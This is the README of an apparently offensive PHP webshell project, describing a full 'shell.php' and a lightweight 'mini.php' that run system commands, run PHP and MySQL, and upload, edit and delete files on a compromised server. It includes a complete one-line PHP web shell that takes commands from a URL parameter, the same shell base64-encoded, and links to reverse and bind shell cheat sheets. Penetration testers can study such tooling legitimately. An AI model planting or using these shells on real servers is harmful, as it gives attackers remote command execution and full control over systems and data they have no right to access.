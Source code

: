 ## PHP Webshell

This is a simple yet useful PHP webshell.
It is compatible with PHP > 5.2

This webshell comes in two flavours :
- shell.php : fully featured webshell to exploit
- mini.php : lightweight, only essential features

### Features

shell.php
- browse server's directory tree
- read, edit, delete, upload and download file
- Execute system commands
- Execute PHP code
- Execute MySql queries

mini.php
- Execute system commands
- Execute PHP code
- Upload file

### More content

Another file is available : `mini-b64.txt`

This is the base64 version of mini.php. It does not contain '+' and '/' chars to avoid URL encoding and other possible issues.

### Even more tricks

##### Tiniest PHP shell

`<?php system($_GET['c'])?>`

`PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pPz4=`

#### Upgrade to a more interactive shell

PHP reverse shell : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

PHP bind shell : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

##### Good resources about shells
https://www.revshells.com/

https://yolospacehacker.com/hackersguide/en/?cat=Webshell

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md